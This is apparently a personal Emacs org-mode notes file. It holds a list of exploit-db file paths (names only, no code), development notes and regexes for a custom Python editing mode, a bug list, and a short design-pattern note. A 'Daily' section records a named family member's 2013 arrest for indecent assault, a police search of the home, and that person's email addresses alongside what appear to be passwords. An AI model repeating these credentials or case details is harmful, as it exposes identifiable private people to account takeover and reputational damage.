**** TODO file:/root/work/exploitdb/winremote/6387.rb
**** TODO file:/root/work/exploitdb/winremote/638.py
**** TODO file:/root/work/exploitdb/winremote/6407.c
**** TODO file:/root/work/exploitdb/winremote/640.c
**** TODO file:/root/work/exploitdb/winremote/6414.html
**** TODO file:/root/work/exploitdb/winremote/641.txt
**** TODO file:/root/work/exploitdb/winremote/644.pl
**** TODO file:/root/work/exploitdb/winremote/6454.html
**** TODO file:/root/work/exploitdb/winremote/6491.html
**** TODO file:/root/work/exploitdb/winremote/64.c
**** TODO file:/root/work/exploitdb/winremote/6506.txt
**** TODO file:/root/work/exploitdb/winremote/650.c
**** TODO file:/root/work/exploitdb/winremote/6537.html
**** TODO file:/root/work/exploitdb/winremote/6548.html
**** TODO file:/root/work/exploitdb/winremote/654.c
**** TODO file:/root/work/exploitdb/winremote/6570.rb
**** TODO file:/root/work/exploitdb/winremote/658.c
**** TODO file:/root/work/exploitdb/winremote/6600.html
**** TODO file:/root/work/exploitdb/winremote/6630.html
**** TODO file:/root/work/exploitdb/winremote/6638.html
**** TODO file:/root/work/exploitdb/winremote/663.py
**** TODO file:/root/work/exploitdb/winremote/6656.txt
**** TODO file:/root/work/exploitdb/winremote/6661.txt
**** TODO file:/root/work/exploitdb/winremote/6666.pl
**** TODO file:/root/work/exploitdb/winremote/6686.txt
**** TODO file:/root/work/exploitdb/winremote/668.c
**** TODO file:/root/work/exploitdb/winremote/6690.html
**** TODO file:/root/work/exploitdb/winremote/6699.html
**** TODO file:/root/work/exploitdb/winremote/66.c
**** TODO file:/root/work/exploitdb/winremote/670.c
**** TODO file:/root/work/exploitdb/winremote/675.txt
**** TODO file:/root/work/exploitdb/winremote/6773.html
**** TODO file:/root/work/exploitdb/winremote/6774.html
**** TODO file:/root/work/exploitdb/winremote/6776.html
**** TODO file:/root/work/exploitdb/winremote/6793.html
**** TODO file:/root/work/exploitdb/winremote/6801.txt
**** TODO file:/root/work/exploitdb/winremote/6804.pl
**** TODO file:/root/work/exploitdb/winremote/6813.html
**** TODO file:/root/work/exploitdb/winremote/6828.html
**** TODO file:/root/work/exploitdb/winremote/6840.html
**** TODO file:/root/work/exploitdb/winremote/6841.txt
**** TODO file:/root/work/exploitdb/winremote/6870.html
**** TODO file:/root/work/exploitdb/winremote/6871.html
**** TODO file:/root/work/exploitdb/winremote/6872.html
**** TODO file:/root/work/exploitdb/winremote/6873.html
**** TODO file:/root/work/exploitdb/winremote/6875.html
**** TODO file:/root/work/exploitdb/winremote/6878.html
**** TODO file:/root/work/exploitdb/winremote/6880.html
**** TODO file:/root/work/exploitdb/winremote/6921.rb
**** TODO file:/root/work/exploitdb/winremote/693.c
**** TODO file:/root/work/exploitdb/winremote/6963.html
**** TODO file:/root/work/exploitdb/winremote/69.c
**** TODO file:/root/work/exploitdb/winremote/7056.rb
**** TODO file:/root/work/exploitdb/winremote/70.c
**** TODO file:/root/work/exploitdb/winremote/7104.c
**** TODO file:/root/work/exploitdb/winremote/711.c
**** TODO file:/root/work/exploitdb/winremote/7125.txt
**** TODO file:/root/work/exploitdb/winremote/7132.py
**** TODO file:/root/work/exploitdb/winremote/7142.html
**** TODO file:/root/work/exploitdb/winremote/7145.txt
**** TODO file:/root/work/exploitdb/winremote/7167.html
**** TODO file:/root/work/exploitdb/winremote/7181.html
**** TODO file:/root/work/exploitdb/winremote/7196.html
**** TODO file:/root/work/exploitdb/winremote/719.txt
**** TODO file:/root/work/exploitdb/winremote/726.c
**** TODO file:/root/work/exploitdb/winremote/729.txt
**** TODO file:/root/work/exploitdb/winremote/730.html
**** TODO file:/root/work/exploitdb/winremote/733.c
**** TODO file:/root/work/exploitdb/winremote/734.c
**** TODO file:/root/work/exploitdb/winremote/7355.txt
**** TODO file:/root/work/exploitdb/winremote/7384.txt
**** TODO file:/root/work/exploitdb/winremote/7402.html
**** TODO file:/root/work/exploitdb/winremote/7403.txt
**** TODO file:/root/work/exploitdb/winremote/7410.htm
**** TODO file:/root/work/exploitdb/winremote/7442.txt
**** TODO file:/root/work/exploitdb/winremote/7452.pl
**** TODO file:/root/work/exploitdb/winremote/7477.html
**** TODO file:/root/work/exploitdb/winremote/7505.html
**** TODO file:/root/work/exploitdb/winremote/750.c
**** TODO file:/root/work/exploitdb/winremote/7521.txt
**** TODO file:/root/work/exploitdb/winremote/753.html
**** TODO file:/root/work/exploitdb/winremote/7566.html
**** TODO file:/root/work/exploitdb/winremote/7583.pl
**** TODO file:/root/work/exploitdb/winremote/7584.pl
**** TODO file:/root/work/exploitdb/winremote/7594.html
**** TODO file:/root/work/exploitdb/winremote/759.cpp
**** TODO file:/root/work/exploitdb/winremote/7617.html
**** TODO file:/root/work/exploitdb/winremote/761.cpp
**** TODO file:/root/work/exploitdb/winremote/7623.html
**** TODO file:/root/work/exploitdb/winremote/7630.html
**** TODO file:/root/work/exploitdb/winremote/765.c
**** TODO file:/root/work/exploitdb/winremote/767.pl
**** TODO file:/root/work/exploitdb/winremote/76.c
**** TODO file:/root/work/exploitdb/winremote/7706.mrc
**** TODO file:/root/work/exploitdb/winremote/771.cpp
**** TODO file:/root/work/exploitdb/winremote/7739.html
**** TODO file:/root/work/exploitdb/winremote/7747.html
**** TODO file:/root/work/exploitdb/winremote/7748.html
**** TODO file:/root/work/exploitdb/winremote/7749.html
**** TODO file:/root/work/exploitdb/winremote/7755.html
**** TODO file:/root/work/exploitdb/winremote/7757.html
**** TODO file:/root/work/exploitdb/winremote/7762.html
**** TODO file:/root/work/exploitdb/winremote/7763.html
**** TODO file:/root/work/exploitdb/winremote/7779.html
**** TODO file:/root/work/exploitdb/winremote/7794.html
**** TODO file:/root/work/exploitdb/winremote/7804.html
**** TODO file:/root/work/exploitdb/winremote/781.py
**** TODO file:/root/work/exploitdb/winremote/7826.html
**** TODO file:/root/work/exploitdb/winremote/7827.html
**** TODO file:/root/work/exploitdb/winremote/7842.html
**** TODO file:/root/work/exploitdb/winremote/7868.html
**** TODO file:/root/work/exploitdb/winremote/7871.html
**** TODO file:/root/work/exploitdb/winremote/7875.pl
**** TODO file:/root/work/exploitdb/winremote/787.pl
**** TODO file:/root/work/exploitdb/winremote/7903.html
**** TODO file:/root/work/exploitdb/winremote/7910.html
**** TODO file:/root/work/exploitdb/winremote/7912.txt
**** TODO file:/root/work/exploitdb/winremote/7913.pl
**** TODO file:/root/work/exploitdb/winremote/7918.txt
**** TODO file:/root/work/exploitdb/winremote/7919.txt
**** TODO file:/root/work/exploitdb/winremote/7926.pl
**** TODO file:/root/work/exploitdb/winremote/7928.txt
**** TODO file:/root/work/exploitdb/winremote/7935.html
**** TODO file:/root/work/exploitdb/winremote/794.c
**** TODO file:/root/work/exploitdb/winremote/7966.txt
**** TODO file:/root/work/exploitdb/winremote/7988.pl
**** TODO file:/root/work/exploitdb/winremote/7989.pl
**** TODO file:/root/work/exploitdb/winremote/802.cpp
**** TODO file:/root/work/exploitdb/winremote/8041.txt
**** TODO file:/root/work/exploitdb/winremote/804.c
**** TODO file:/root/work/exploitdb/winremote/8059.html
**** TODO file:/root/work/exploitdb/winremote/8079.html
**** TODO file:/root/work/exploitdb/winremote/8080.py
**** TODO file:/root/work/exploitdb/winremote/8082.html
**** TODO file:/root/work/exploitdb/winremote/80.c
**** TODO file:/root/work/exploitdb/winremote/8117.pl
**** TODO file:/root/work/exploitdb/winremote/8118.html
**** TODO file:/root/work/exploitdb/winremote/8142.py
**** TODO file:/root/work/exploitdb/winremote/8143.html
**** TODO file:/root/work/exploitdb/winremote/8144.txt
**** TODO file:/root/work/exploitdb/winremote/8149.txt
**** TODO file:/root/work/exploitdb/winremote/8152.py
**** TODO file:/root/work/exploitdb/winremote/8154.pl
**** TODO file:/root/work/exploitdb/winremote/8155.txt
**** TODO file:/root/work/exploitdb/winremote/8160.html
**** TODO file:/root/work/exploitdb/winremote/8173.txt
**** TODO file:/root/work/exploitdb/winremote/819.py
**** TODO file:/root/work/exploitdb/winremote/81.c
**** TODO file:/root/work/exploitdb/winremote/8200.pl
**** TODO file:/root/work/exploitdb/winremote/8203.pl
**** TODO file:/root/work/exploitdb/winremote/8206.html
**** TODO file:/root/work/exploitdb/winremote/8208.html
**** TODO file:/root/work/exploitdb/winremote/8211.pl
**** TODO file:/root/work/exploitdb/winremote/8215.txt
**** TODO file:/root/work/exploitdb/winremote/8227.pl
**** TODO file:/root/work/exploitdb/winremote/822.c
**** TODO file:/root/work/exploitdb/winremote/823.c
**** TODO file:/root/work/exploitdb/winremote/8248.py
**** TODO file:/root/work/exploitdb/winremote/8253.c
**** TODO file:/root/work/exploitdb/winremote/8256.c
**** TODO file:/root/work/exploitdb/winremote/8257.txt
**** TODO file:/root/work/exploitdb/winremote/825.c
**** TODO file:/root/work/exploitdb/winremote/8273.c
**** TODO file:/root/work/exploitdb/winremote/827.c
**** TODO file:/root/work/exploitdb/winremote/8283.c
**** TODO file:/root/work/exploitdb/winremote/8284.pl
**** TODO file:/root/work/exploitdb/winremote/8295.pl
**** TODO file:/root/work/exploitdb/winremote/830.c
**** TODO file:/root/work/exploitdb/winremote/8321.py
**** TODO file:/root/work/exploitdb/winremote/8332.txt
**** TODO file:/root/work/exploitdb/winremote/8336.pl
**** TODO file:/root/work/exploitdb/winremote/8338.py
**** TODO file:/root/work/exploitdb/winremote/8339.py
**** TODO file:/root/work/exploitdb/winremote/8340.py
**** TODO file:/root/work/exploitdb/winremote/8354.py
**** TODO file:/root/work/exploitdb/winremote/8363.py
**** TODO file:/root/work/exploitdb/winremote/8368.txt
**** TODO file:/root/work/exploitdb/winremote/8392.txt
**** TODO file:/root/work/exploitdb/winremote/8398.php
**** TODO file:/root/work/exploitdb/winremote/83.html
**** TODO file:/root/work/exploitdb/winremote/8419.pl
**** TODO file:/root/work/exploitdb/winremote/8421.py
**** TODO file:/root/work/exploitdb/winremote/8422.py
**** TODO file:/root/work/exploitdb/winremote/8428.txt
**** TODO file:/root/work/exploitdb/winremote/845.c
**** TODO file:/root/work/exploitdb/winremote/8463.txt
**** TODO file:/root/work/exploitdb/winremote/847.cpp
**** TODO file:/root/work/exploitdb/winremote/8518.pl
**** TODO file:/root/work/exploitdb/winremote/8525.pl
**** TODO file:/root/work/exploitdb/winremote/8537.txt
**** TODO file:/root/work/exploitdb/winremote/854.cpp
**** TODO file:/root/work/exploitdb/winremote/8554.py
**** TODO file:/root/work/exploitdb/winremote/8560.html
**** TODO file:/root/work/exploitdb/winremote/8561.pl
**** TODO file:/root/work/exploitdb/winremote/8562.html
**** TODO file:/root/work/exploitdb/winremote/8564.pl
**** TODO file:/root/work/exploitdb/winremote/8579.html
**** TODO file:/root/work/exploitdb/winremote/859.c
**** TODO file:/root/work/exploitdb/winremote/8613.py
**** TODO file:/root/work/exploitdb/winremote/8614.py
**** TODO file:/root/work/exploitdb/winremote/8621.py
**** TODO file:/root/work/exploitdb/winremote/8623.rb
**** TODO file:/root/work/exploitdb/winremote/8651.pl
**** TODO file:/root/work/exploitdb/winremote/8666.txt
**** TODO file:/root/work/exploitdb/winremote/868.cpp
**** TODO file:/root/work/exploitdb/winremote/8704.txt
**** TODO file:/root/work/exploitdb/winremote/8716.py
**** TODO file:/root/work/exploitdb/winremote/8732.py
**** TODO file:/root/work/exploitdb/winremote/8733.html
**** TODO file:/root/work/exploitdb/winremote/8742.txt
**** TODO file:/root/work/exploitdb/winremote/8754.patch
**** TODO file:/root/work/exploitdb/winremote/8757.html
**** TODO file:/root/work/exploitdb/winremote/8758.html
**** TODO file:/root/work/exploitdb/winremote/875.c
**** TODO file:/root/work/exploitdb/winremote/8765.php
**** TODO file:/root/work/exploitdb/winremote/8804.py
**** TODO file:/root/work/exploitdb/winremote/8806.pl
**** TODO file:/root/work/exploitdb/winremote/8824.html
**** TODO file:/root/work/exploitdb/winremote/8835.html
**** TODO file:/root/work/exploitdb/winremote/883.c
**** TODO file:/root/work/exploitdb/winremote/8897.c
**** TODO file:/root/work/exploitdb/winremote/8916.py
**** TODO file:/root/work/exploitdb/winremote/8922.txt
**** TODO file:/root/work/exploitdb/winremote/8930.txt
**** TODO file:/root/work/exploitdb/winremote/8934.py
**** TODO file:/root/work/exploitdb/winremote/8938.txt
**** TODO file:/root/work/exploitdb/winremote/8969.rb
**** TODO file:/root/work/exploitdb/winremote/8970.txt
**** TODO file:/root/work/exploitdb/winremote/8986.txt
**** TODO file:/root/work/exploitdb/winremote/9002.c
**** TODO file:/root/work/exploitdb/winremote/9031.py
**** TODO file:/root/work/exploitdb/winremote/9065.c
**** TODO file:/root/work/exploitdb/winremote/906.c
**** TODO file:/root/work/exploitdb/winremote/9093.txt
**** TODO file:/root/work/exploitdb/winremote/9096.txt
**** TODO file:/root/work/exploitdb/winremote/909.cpp
**** TODO file:/root/work/exploitdb/winremote/90.c
**** TODO file:/root/work/exploitdb/winremote/9106.txt
**** TODO file:/root/work/exploitdb/winremote/9108.py
**** TODO file:/root/work/exploitdb/winremote/9128.py
**** TODO file:/root/work/exploitdb/winremote/9137.html
**** TODO file:/root/work/exploitdb/winremote/9139.pl
**** TODO file:/root/work/exploitdb/winremote/9181.py
**** TODO file:/root/work/exploitdb/winremote/9214.pl
**** TODO file:/root/work/exploitdb/winremote/9224.py
**** TODO file:/root/work/exploitdb/winremote/92.c
**** TODO file:/root/work/exploitdb/winremote/9303.c
**** TODO file:/root/work/exploitdb/winremote/930.html
**** TODO file:/root/work/exploitdb/winremote/9318.py
**** TODO file:/root/work/exploitdb/winremote/9319.py
**** TODO file:/root/work/exploitdb/winremote/9330.py
**** TODO file:/root/work/exploitdb/winremote/943.html
**** TODO file:/root/work/exploitdb/winremote/9443.txt
**** TODO file:/root/work/exploitdb/winremote/944.c
**** TODO file:/root/work/exploitdb/winremote/945.c
**** TODO file:/root/work/exploitdb/winremote/9468.py
**** TODO file:/root/work/exploitdb/winremote/947.pl
**** TODO file:/root/work/exploitdb/winremote/949.c
**** TODO file:/root/work/exploitdb/winremote/9500.cpp
**** TODO file:/root/work/exploitdb/winremote/9508.rb
**** TODO file:/root/work/exploitdb/winremote/952.pl
**** TODO file:/root/work/exploitdb/winremote/953.c
**** TODO file:/root/work/exploitdb/winremote/9541.pl
**** TODO file:/root/work/exploitdb/winremote/9559.pl
**** TODO file:/root/work/exploitdb/winremote/955.py
**** TODO file:/root/work/exploitdb/winremote/9586.py
**** TODO file:/root/work/exploitdb/winremote/9592.rb
**** TODO file:/root/work/exploitdb/winremote/9596.py
**** TODO file:/root/work/exploitdb/winremote/960.c
**** TODO file:/root/work/exploitdb/winremote/9613.py
**** TODO file:/root/work/exploitdb/winremote/9615.jar
**** TODO file:/root/work/exploitdb/winremote/9638.txt
**** TODO file:/root/work/exploitdb/winremote/9643.txt
**** TODO file:/root/work/exploitdb/winremote/9644.py
**** TODO file:/root/work/exploitdb/winremote/9649.txt
**** TODO file:/root/work/exploitdb/winremote/9650.txt
**** TODO file:/root/work/exploitdb/winremote/9652.sh
**** TODO file:/root/work/exploitdb/winremote/9660.pl
**** TODO file:/root/work/exploitdb/winremote/9662.c
**** TODO file:/root/work/exploitdb/winremote/9663.py
**** TODO file:/root/work/exploitdb/winremote/9673.py
**** TODO file:/root/work/exploitdb/winremote/9676.txt
**** TODO file:/root/work/exploitdb/winremote/967.cpp
**** TODO file:/root/work/exploitdb/winremote/968.c
**** TODO file:/root/work/exploitdb/winremote/9690.py
**** TODO file:/root/work/exploitdb/winremote/9694.txt
**** TODO file:/root/work/exploitdb/winremote/969.c
**** TODO file:/root/work/exploitdb/winremote/9704.html
**** TODO file:/root/work/exploitdb/winremote/9705.html
**** TODO file:/root/work/exploitdb/winremote/975.py
**** TODO file:/root/work/exploitdb/winremote/976.cpp
**** TODO file:/root/work/exploitdb/winremote/979.txt
**** TODO file:/root/work/exploitdb/winremote/97.c
**** TODO file:/root/work/exploitdb/winremote/9800.cpp
**** TODO file:/root/work/exploitdb/winremote/9802.html
**** TODO file:/root/work/exploitdb/winremote/9803.html
**** TODO file:/root/work/exploitdb/winremote/9805.html
**** TODO file:/root/work/exploitdb/winremote/9810.txt
**** TODO file:/root/work/exploitdb/winremote/9813.txt
**** TODO file:/root/work/exploitdb/winremote/9814.py
**** TODO file:/root/work/exploitdb/winremote/9815.py
**** TODO file:/root/work/exploitdb/winremote/9816.py
**** TODO file:/root/work/exploitdb/winremote/9817.py
**** TODO file:/root/work/exploitdb/winremote/9851.pl
**** TODO file:/root/work/exploitdb/winremote/9853.rb
**** TODO file:/root/work/exploitdb/winremote/986.html
**** TODO file:/root/work/exploitdb/winremote/987.c
**** TODO file:/root/work/exploitdb/winremote/9886.txt
**** TODO file:/root/work/exploitdb/winremote/9893.txt
**** TODO file:/root/work/exploitdb/winremote/9896.txt
**** TODO file:/root/work/exploitdb/winremote/9900.txt
**** TODO file:/root/work/exploitdb/winremote/9902.txt
**** TODO file:/root/work/exploitdb/winremote/9905.cpp
**** TODO file:/root/work/exploitdb/winremote/990.c
**** TODO file:/root/work/exploitdb/winremote/9947.rb
**** TODO file:/root/work/exploitdb/winremote/9957.txt
**** TODO file:/root/work/exploitdb/winremote/9966.txt
**** TODO file:/root/work/exploitdb/winremote/9992.txt
**** TODO file:/root/work/exploitdb/winremote/9998.c
*** Algorithm
* Stack:
** TODO [#C] if/while で= を使用しない。
; if before char is ">" "<", then insert =
; if in "if" statement then, insert "=="
; else insert "="
** TODO [#C] __python__.el arhcitecture

1) 背景 (問題点)
   make new my python.el

2) 対応方法
   create architecture

3) 優先順位の根拠
   need a lot of time

4) 備考
   # variable
   py:indent-offset 4
   py:mode-line-name

   # auto-mode-alist .py .pyw .pyx .pyd .pyxi .py3 .py.gz

   # functions
   py:indent-shift-left
   py:indent-shift-right
   py:align-indent-level
   py:comment
   py:ffap




# documentation

# interaction
py:run
py:shell-send-string
py:shell-send-region
py:shell-send-defun
py:shell-send-buffer
py:shell-send-file
py:shell-switch-to-shell

# pdb

# test

# other
dictionary writer {}

# split file
ipython.el
pep8.el
pylint.el



1) 結果
2) time/ref
    / cf. [[file:~/.emacs.d/allinone.org::*Emacs:][Emacs:]]
*** investigate
**** color
**** refactoring

*** regexp
block-start from python.el
(rx symbol-start (or "def" "class" "if" "elif" "else" "try"
"except" "finally" "for" "while" "with")
symbol-end)

decorator
(rx line-start (* space) ?@ (any letter ?_)
    (* (any word ?_)))

if-name-main
(rx line-start "if" (+ space) "__name__"
    (+ space) "==" (+ space)
    (any ?' ?\") "__main__" (any ?' ?\")
    (* space) ?:)

open-paren
(rx (or "{" "[" "("))

close-paren
(rx (or "}" "]" ")"))

simple operator from python.el
(rx (any ?+ ?- ?/ ?& ?^ ?~ ?| ?* ?< ?> ?= ?%))

not simple operator from python.el
(rx (not (any ?+ ?- ?/ ?& ?^ ?~ ?| ?* ?< ?> ?= ?%)))

operator from python.el
(rx (or "+" "-" "/" "&" "^" "~" "|" "*" "<" ">"
"=" "%" "**" "//" "<<" ">>" "<=" "!="
"==" ">=" "is" "not"))

assignment-operator from python.el
(rx (or "=" "+=" "-=" "*=" "/=" "//=" "%=" "**="
                                       ">>=" "<<=" "&=" "^=" "|="))

python-delimiter from python.el
(rx (and
;; Match even number of backslashes.
(or (not (any ?\\ ?\' ?\")) point
;; Quotes might be preceded by a escaped quote.
(and (or (not (any ?\\)) point) ?\\
(* ?\\ ?\\) (any ?\' ?\")))
(* ?\\ ?\\)
;; Match single or triple quotes of any kind.
(group (or  "\"" "\"\"\"" "'" "'''"))))

py-blank-or-comment-re from python-mode.el
 "[ \t]*\\($\\|#\\)"

py-block-closing-keywords-re from python-mode.el
  "[ \t]*\\_<\\(return\\|raise\\|break\\|continue\\|pass\\)\\_>[ \n\t]"

py-block-closing-keywords-re from python-mode.el
  "[ \t]*\\_<\\(return\\|raise\\|break\\|continue\\|pass\\)\\_>[ \n\t]"

py-finally-re
"[ \t]*\\_<finally\\_>[: \n\t]"

py-except-re
  "[ \t]*\\_<except\\_>[: \n\t]"

py-else-re
  "[ \t]*\\_<else\\_>[: \n\t]"

py-return-re
  ".*:?[ \t]*\\_<\\(return\\)\\_>[ \n\t]"

py-no-outdent-re "\\(try:\\|except\\(\\s +.*\\)?:\\|while\\s +.*:\\|for\\s +.*:\\|if\\s +.*:\\|elif\\s +.*:\\)\\([ 	]*\\_<\\(return\\|raise\\|break\\|continue\\|pass\\)\\_>[ 	\n]\\)")

(defconst py-assignment-re "\\_<\\w+\\_>[ \t]*\\(=\\|+=\\|*=\\|%=\\|&=\\|^=\\|<<=\\|-=\\|/=\\|**=\\||=\\|>>=\\|//=\\)"
  "If looking at the beginning of an assignment. ")

(defconst py-block-re "[ \t]*\\_<\\(class\\|def\\|for\\|if\\|try\\|while\\|with\\)\\_>[: \n\t]"
  "Matches the beginning of a compound statement. ")

(defconst py-minor-block-re "[ \t]*\\_<\\(for\\|if\\|try\\|with\\)\\_>[: \n\t]"
  "Matches the beginning of an `for', `if', `try' or `with' block. ")

(defconst py-try-block-re "[ \t]*\\_<try\\_>[: \n\t]"
  "Matches the beginning of an `if' or `try' block. ")

(defconst py-class-re "[ \t]*\\_<\\(class\\)\\_>[ \n\t]"
  "Matches the beginning of a class definition. ")

(defconst py-def-or-class-re "[ \t]*\\_<\\(def\\|class\\)\\_>[ \n\t]"
  "Matches the beginning of a class- or functions definition. ")

(defconst py-def-re "[ \t]*\\_<\\(def\\)\\_>[ \n\t]"
  "Matches the beginning of a functions definition. ")

(defconst py-block-or-clause-re "[ \t]*\\_<\\(def\\|class\\|if\\|else\\|elif\\|while\\|for\\|try\\|except\\|finally\\|with\\)\\_>[: \n\t]"
  "Matches the beginning of a compound statement or it's clause. ")
;; (setq py-block-or-clause-re "[ \t]*\\_<\\(if\\|else\\|elif\\|while\\|for\\|try\\|except\\|finally\\|with\\)\\_>[: \n\t]")

(defconst py-extended-block-or-clause-re "[ \t]*\\_<\\(def\\|class\\|if\\|else\\|elif\\|while\\|for\\|try\\|except\\|finally\\|with\\)\\_>[: \n\t]"
  "Matches the beginning of a compound statement or it's clause.
Includes def and class. ")

(defconst py-clause-re "[ \t]*\\_<\\(else\\|elif\\|except\\|finally\\)\\_>[: \n\t]"
  "Matches the beginning of a compound statement's clause. ")
;; (setq py-clause-re "[ \t]*\\_<\\(else\\|elif\\|except\\|finally\\)\\_>[: \n\t]")

(defconst py-elif-re "[ \t]*\\_<\\elif\\_>[: \n\t]"
  "Matches the beginning of a compound if-statement's clause exclusively. ")

(defconst py-try-clause-re "[ \t]*\\_<\\(except\\|else\\|finally\\)\\_>[: \n\t]"
  "Matches the beginning of a compound try-statement's clause. ")

(defconst py-if-re "[ \t]*\\_<if\\_>[ \n\t]"
  "Matches the beginning of a compound statement saying `if'. ")

(defconst py-try-re "[ \t]*\\_<try\\_>[: \n\t]"
  "Matches the beginning of a compound statement saying `try'. " )

# Tail end of ' string.
Single = r"[^'\\]*(?:\\.[^'\\]*)*'"
# Tail end of " string.
Double = r'[^"\\]*(?:\\.[^"\\]*)*"'
# Tail end of ''' string.
Single3 = r"[^'\\]*(?:(?:\\.|'(?!'')) [^'\\]*)*'''"
# Tail end of """ string.
Double3 = r'[^"\\]*(?:(?:\\.|"(?!"")) [^"\\]*)*"""'
Triple = group ("[uUbB]?[rR]?'''", '[uUbB]?[rR]?"""')
# Single-line ' or " string.
String = group (r"[uUbB]?[rR]?'[^\n'\\]*(?:\\.[^\n'\\]*)*'",
               r'[uUbB]?[rR]?"[^\n"\\]*(?:\\.[^\n"\\]*)*"')

*** predicate

underscore-word-p
in-string-or-comment-block-p
in-string-block-p
py-in-statement-p
py-beginning-of-def-p
py-beginning-of-class-p
py-beginning-of-def-or-class-p

py-end-of-line-p
py-end-of-buffer-p
py-end-of-paragraph-p
py-end-of-statement-p
py-end-of-expression-p
py-end-of-partial-expression-p
py-end-of-block-p
py-end-of-clause-p
py-end-of-block-or-clause-p
py-end-of-def-p
py-end-of-class-p

py-statement-opens-block-p
py-statement-opens-base
py-statement-opens-clause-p
py-statement-opens-block-or-clause-p
py-statement-opens-class-p
py-statement-opens-def-p
py-statement-opens-def-or-class-p
py-statement-closes-block-p

py-beginning-of-block-bol-p
py-beginning-of-def-bol-p
py-beginning-of-class-bol-p

**** in line
py:in-line-empty-p
py:in-line-if-p
py:in-line-else-p
py:in-line-elif-p
py:in-line-while-p
py:in-line-def-p
py:in-line-class-p
py:in-line-return-p
py:in-line-indent-p
py:in-line-import-p
py:in-line-from-p
py:in-line-with-p
py:in-line-try-p


**** in block
py:in-block-if-p
py:in-block-elif-p
py:in-block-else-p
py:in-block-while-p
py:in-block-class-p
py:in-block-method-p
py:in-block-comment-p
py:in-block-doc-p
py:in-block-try-p
py:in-block-except-p
py:in-block-finally-p
py:in-block-for-p


**** in paren
py:in-func-paren-p
py:in-paren-p
py:in-list-box-p
py:in-dict-p

*** move
py:mv-block-up
py:mv-block-down
py:mv-def-up
py:mv-def-down
py:mv-class-up
py:mv-class-down

*** region
py:region-def
py:region-method
py:region-class
py:region-if
py:region-while
py:region-doc
py:region-paren
py:region-\(\)
py:region-{}
py:region-[]


py:comment-region
py:comment-def
py:comment-block
py:comment-class

py:mark-paragraph
py:mark-block
py:mark-def
py:mark-class
py:mark-class-of-def
py:mark-line
py:mark-statement

*** internal functions
py:get-this-class-name
py:get-this-def-name
py:get-this-if-state
py:get-this-while-state

py:get-this-indent-length

*** functions
**** auto split line if line is over 80
hello = 'world yahoo google'
=>
hello = ('world yahoo'
         'googl')
*** TODO [#B] python mode make headers.

1) 背景 (問題点)


2) 対応方法
   header2

3) 優先順位の根拠
   日付をつけて保存すると管理しやすくなる。
   library が増えてきたので

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/myxlib/__init__.py::import%20Xlib][file:~/.pylib/myxlib/__init__.py::import Xlib]]
*** TODO [#C] python mode, @ key call decolater list

1) 背景 (問題点)

2) 対応方法
rare use @ key, almost in decolater

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/wm/_core.py]]


** TODO [#C] auto install script by python

    [[file:~/.emacs.d/allinone.org::*Stack:][Stack:]]
* Daily
** 2013
*** 4/17
- 朝、大地と連絡がとれず、車を乗って行ったとみられ父、会社を
  休む。会社には叔父さんが亡くなったとして連絡。
- 仙台の実家、啓一叔父さんが亡くなったと連絡がある。
- 父、歯医者の予約を前倒しして 6:00 に変更し叡山歯科へ向う。
- 大地が拘置所に拘留されていると警察から連絡がある。
*** 4/18
- 15:45 警察が大地の件で家を家宅捜索にくる。
  捜査令状によると強制わいせつ致傷罪であった。
  家宅捜索をするとは聞いていなかったので、
  事件の経緯を捜査官から説明を受ける。
  警察によると大地は南郷の洗堰西側で逮捕されたとのこと。
  時刻は 4/16 24:05 頃。
  女性に猥褻行為を働こうとし、目撃者によって通報される際に逃
  走を図ろうとして相手に怪我をおわせた模様。
  女性からは診断書もでているとのこと。
  また車は現場からかなり離れた場所にあった。
  大地は最初は否認をしていたが、警察曰く現在は認めているそう
  だ。
  さらに、余罪の可能性もあるらしく拘留が長引く見通し。
*** 4/19
- 11:00 母、航、大地との面会に向う。
  17:00 頃、大地の彼女に連絡。
  彼女は大地の事件の事をネットのニュースで知った様子。
  ニュースは産経で配信されており、相手は 27 歳の無職の女性との
  こと。
*** 4/21
大地 アドレス パスワード
0ny30747785506g@ezweb.ne.jp
daichih05006@yahoo.co.jp
3218
312819
* Bug:
** TODO [#B] python mode "=" action

1) 背景 (問題点)
   "=" behave is worth

2) 対応方法
   rethink

3) 優先順位の根拠
   many use this action

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/work/Python_Testing_Beginners_Guide/page-0020.png]]
** TODO [#C] if command line through frige override same line on multi-term

1) 背景 (問題点)

2) 対応方法
   disable any plugin

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.emacs.d/elisp/start.d/22_savekill_plugin_start.elc]]
** TODO [#A] py--import-statement-end-point not included undo history

1) 背景 (問題点)
   this command not add undo history
   if execute undo command, statement will corrupt

2) 対応方法
   history function add

3) 優先順位の根拠
   cannot use undo command until fix

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.emacs.d/elisp/mylisp/python-extensions.el::(defun%20py--import-statement-end-point%20 ()][file:~/.emacs.d/elisp/mylisp/python-extensions.el::(defun py--import-statement-end-point ()]]
** TODO [#C] sikuli could not detect on left dual display

1) 背景 (問題点)
   cannot detect sikuli left display

2) 対応方法
   search sikuli dual display
or force open on right display

3) 優先順位の根拠
   almost ok if open on right display

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/daily.py::def%20create_recipe ():][file:~/.pylib/daily.py::def create_recipe ():]]
** TODO [#C] python-mode.el python.el 両方読み込まれている状態。

1) 背景 (問題点)


2) 対応方法
   make new my python mode

3) 優先順位の根拠
   will need spend a lot of times.

4) 備考

5) 結果
6) time/ref
    / cf.
** TODO [#C] __str__ yasnippet

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:/tmp/junk/2013-09-23-180732.junk.py]]
** TODO [#C] yasnippet logging.BasicConfig from auto-complete

1) 背景 (問題点)

2) 対応方法

3) 優先順位の根拠

4) 備考

5) 結果
6) time/ref
    / cf. [[file:~/.pylib/daily.py::format%3Dlogformat)][file:~/.pylib/daily.py::format=logformat)]]
* Design Pattern
** Strategy
   http://www.ogis-ri.co.jp/otc/hiroba/technical/DesignPatternsWithExample/chapter06.html

*** 変更対応
    アルゴリズムの変更

*** 利点・欠点
    + 条件ロジックが減る、あるいは取り除かれるため、アルゴリ
      ズムが明白になる
    + アルゴリズムのバリエーションをクラス階層に移すため、個々
      のクラスが単純になる
    + 実行時にアルゴリズムを別のものに置き換えることができる

